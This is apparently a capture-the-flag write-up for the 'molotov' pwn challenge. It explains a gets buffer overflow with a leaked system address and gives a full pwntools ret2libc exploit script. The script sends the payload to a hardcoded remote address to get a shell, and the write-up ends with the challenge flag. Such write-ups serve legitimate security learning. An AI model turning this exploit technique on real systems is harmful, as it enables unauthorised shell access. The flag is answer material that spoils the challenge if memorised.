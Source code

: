 # Welcome Pwner

Chuck it in ghidra or your favourite decompiler/analyser - we see it prints the system address to us, then uses gets to read an input. This is a classic buffer overflow which we'll attack with ret2libc.

As it prints the libc address of system, we can simply use that to calculate the libc base. The binary is 32-bit, and it reads input into ebp-0x1c, giving 32 bytes of padding until return address overwrite. Then, we just send system + junk + /bin/sh address

Note that we don't know the remote libc - I used libc-database find to get the remote libc binary, which is `libc6_2.30-0ubuntu2_i386`

So:
1. Receive libc address
2. Calculate libc base
3. Build ret2libc system("/bin/sh") chain
4. Pop shell, cat flag.txt

```python
from pwn import *
NUM_TO_RET = 0x1c + 4
padding = b'A'*NUM_TO_RET
e = ELF("./molotov")
p = e.process() if args.LOCAL else remote('54.210.217.206',1240)
libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.30-0ubuntu2_i386/libc.so.6")
system = int(p.recvline(),16)
p.recvline()
libcbase = system - libc.symbols['system']
log.info(f"System address: {hex(system)}")
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
chain = flat(libc.symbols['system'],libc.symbols['exit'],next(libc.search(b"/bin/sh\x00")))
p.sendline(padding + chain)
p.interactive()
```
#### Flag: FwordCTF{good_j0b_pwn3r}
